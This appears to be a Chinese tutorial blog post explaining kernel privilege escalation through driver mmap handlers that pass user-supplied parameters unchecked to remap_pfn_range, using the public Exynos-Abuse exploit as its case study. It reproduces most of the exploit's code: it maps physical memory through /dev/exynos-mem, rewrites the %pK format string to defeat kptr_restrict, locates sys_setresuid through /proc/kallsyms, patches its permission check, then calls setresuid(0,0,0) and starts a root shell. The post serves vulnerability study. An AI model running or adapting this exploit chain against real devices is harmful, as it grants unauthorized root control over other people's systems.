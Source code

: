 ```yaml
---
layout: post
title: "Privilege Escalation in Kernel 101 - mmap"
date: 2014-03-14 20:39:36 +0530
comments: true
categories: 
---
```


Privilege Escalation 101
========================

mmap&remap_pfn_range
---------------

#漏洞成因
在一段时期,各个厂商经常出现的漏洞中其中之一就是通过mmap控制全部物理内存.而出现这个问题的原因就是驱动开发人员没有正确地对remap_pfn_range这个函数中的参数做处理.
[mmap man page](http://linux.die.net/man/2/mmap)
[remap_pfn_range 使用方法](http://www.makelinux.net/ldd3/chp-15-sect-2)
下面是mmap的linux API,它的作用是将指定地址和大小的内存映射到用户空间中以便程序进行内存操作,offset传入需要映射的物理地址偏移,length传入需要映射的长度.

```c
void *mmap(void *addr, size_t length, int prot, int flags,
           int fd, off_t offset);
```
**The mmap function asks to map length bytes starting  at offset  offset from  the  file  (or  other object) specified by the file descriptor fd into memory, preferably at address start.  This  latter  address  is  a hint  only,  and is usually specified as 0.  The actual place where the object is mapped is returned by mmap, and is never 0.**

mmap是用户空间对内核请求映射内存的一个接口,调用这个接口后如果相关驱动支持此操作,会实现一个响应mmap的函数,一般情况下会在这个响应函数中调用remap_pfn_range,下面是linux man page上对remap_pfn_range的一个简单示例：

```c
static int simple_remap_mmap(struct file *filp, struct vm_area_struct *vma)
{
    if (remap_pfn_range(vma, vma->vm_start, vm->vm_pgoff,
                vma->vm_end - vma->vm_start,
                vma->vm_page_prot))
        return -EAGAIN;

    vma->vm_ops = &simple_remap_vm_ops;
    simple_vma_open(vma);
    return 0;
}
```
如果这段代码被直接用到驱动上,问题就来了,因为vma中的参数是根据用户空间调用mmap时传入的参数构造而成.用户空间可以传入内核代码段的物理地址,并将其标识为可读写,从而修改内核空间的代码.
 
#保护机制

一个程序的内存空间可以分为两个部分,用户空间（user space）、内核空间（kernel space）,在正常情况下,操作系统中运行的程序只能够控制自身用户空间的内存,而内核空间是由操作系统控制,且运行在特权模式.一个程序的凭据（credential）保存了自身uid、权限等信息,而凭据储存在内核空间,所以运行在用户空间的普通程序无法修改自身的凭据,这就是linux的权限控制的一部分,它保证了操作系统的安全性.

```
|--------------|
| kernel space |
|--------------|
| user space   |
|--------------|
```
##获取全部物理地址的操作能力后提权思路
由于系统中存在能够在用户空间操作所有内存（包括内核地址内存）时,普通程序通过修改内核代码段的机器码即可让内核执行任意命令,从而达到提权的目的.

  
#具体案例Exynos-Abuse 
Exynos-Abuse是其中一个最典型的案例,而且这个漏洞的利用代码也早早地公布了出来,从公布的利用代码来对这类漏洞的利用方式进行分析是最有效的方法.
[Exynos-Abuse完整利用代码](https://raw.githubusercontent.com/mwrlabs/mercury-modules/master/metall0id/root/exynosmem/exynos-abuse/jni/exynos-abuse.c)
##获取全部物理地址的操作能力
根据之前介绍过的一样,这个漏洞的利用方式第一步就是**获取全部物理地址的操作能力**,也就是下面这段代码做的工作：
程序打开有漏洞的驱动后,通过mmap调用了内存映射的方法,参数中length和PHYS_OFFSET是至关重要的两个参数.

```c
  #define PHYS_OFFSET 0x40000000
    ......
  int page_size = sysconf(_SC_PAGE_SIZE);
  int length = page_size * page_size;
    ......
    /* open the door */
  fd = open("/dev/exynos-mem", O_RDWR);//打开有漏洞的驱动
  if (fd == -1) {
    printf("[!] Error opening /dev/exynos-mem\n");
    exit(1);
  }

    /* kernel reside at the start of physical memory, so take some Mb */
  paddr = (unsigned long *)mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_SHARED, fd, PHYS_OFFSET);//调用驱动的mmap对应接口,传入kernel text的起始物理地址
  tmp = paddr;
  if (paddr == MAP_FAILED) {
     printf("[!] Error mmap: %s|%08X\n",strerror(errno), i);
     exit(1);
  }
```
要定位到想要修改的函数地址就需要获取内核符号表,一般情况下在执行打印内核符号表的函数时由于/proc/sys/kptr_restrict的限制,所有符号表地址都会打印为0,.在内核数据段中寻找字符串"%pK %c %s\n",并将其修改为"%p %c %s\n",可以绕过此限制将内核函数的正确地址打印出来.

```c
    /*
     * search the format string "%pK %c %s\n" in memory
     * and replace "%pK" by "%p" to force display kernel
     * symbols pointer
     修改内核符号表打印函数中的"%pK %c %s\n",并将其修改为"%p %c %s\n"
     */
    for(m = 0; m < length; m += 4) {
        if(*(unsigned long *)tmp == 0x204b7025 && *(unsigned long *)(tmp+1) == 0x25206325 && *(unsigned long *)(tmp+2) == 0x00000a73 ) {
            printf("[*] s_show->seq_printf format string found at: 0x%08X\n", PAGE_OFFSET + m);
            restore_ptr_fmt = tmp;
            *(unsigned long*)tmp = 0x20207025;//找到格式化字符串以后修改之
            found = true;
            break;
        }
        tmp++;
    }

    if (found == false) {
        printf("[!] s_show->seq_printf format string not found\n");
        exit(1);
    }
```
拿到内核符号表后就可以定位需要修改的系统调用setresuid的地址了,查找地址的方法为读取/proc/kallsyms的值,修改上面的格式化字符串后再访问改文件时,获取到的地址已经是正确的内核地址.

```c
    found = false;

    /* kallsyms now display symbols address */       
    kallsyms = fopen("/proc/kallsyms", "r");
    if (kallsyms == NULL) {
        printf("[!] kallsysms error: %s\n", strerror(errno));
        exit(1);
    }

    /* parse /proc/kallsyms to find sys_setresuid address */
    while((ptr = fgets(line, 512, kallsyms))) {
        str = strtok(ptr, " ");
        addr_sym = strtoul(str, NULL, 16);
        index = 1;
        while(str) {
            str = strtok(NULL, " ");
            index++;
            if (index == 3) {
                if (strncmp("sys_setresuid\n", str, 14) == 0) {
                    printf("[*] sys_setresuid found at 0x%08X\n",addr_sym);
                    found = true;
                }
                break;
            }
        }
```
找到setresuid的地址后开始搜索cmp r0,#0的机器码,找到后通过把setresuid中的cmp r0,#0,修改为cmp r0,#1将权限检查的逻辑取反.

```c
        if (found) {
            tmp = paddr;
            tmp += (addr_sym - PAGE_OFFSET) >> 2;
            for(m = 0; m < 128; m += 4) {
                if (*(unsigned long *)tmp == 0xe3500000) {
                    printf("[*] patching sys_setresuid at 0x%08X\n",addr_sym+m);
                    restore_ptr_setresuid = tmp;
                    *(unsigned long *)tmp = 0xe3500001;
                    break;
                }
                tmp++;
            }
            break;
        }
    }
```
此时内核代码中setresuid的权限检查逻辑已经取反,之前没有权限执行setresuid的程序现在可以执行成功了.

```c
    fclose(kallsyms);

    /* to be sure memory is updated */
    usleep(100000);

    /* ask for root */
    result = setresuid(0, 0, 0);

    /* restore memory */
    *(unsigned long *)restore_ptr_fmt = 0x204b7025;
    *(unsigned long *)restore_ptr_setresuid = 0xe3500000;
    munmap(paddr, length);
    close(fd);

    if (result) {
        printf("[!] set user root failed: %s\n", strerror(errno));
        exit(1);
    }

    /* execute a root shell */
    execve (cmd[0], cmd, env);

  return 0;
}
```
当execve函数运行时该程序的uid已经设置为0,如果执行的命令为"/system/bin/sh",将会看到命令行的用户由"shell$"变成了"root#".
#小结
以上的例子是在32位系统中没有开启内核代码只读的情况下才能够利用成功,由于攻防的演进,后面Android系统增加了很多诸如内核代码只读、PXN等安全功能,使得漏洞的完美利用更加困难,但通过此例子可以很好的了解内核提权的步骤以及思路.
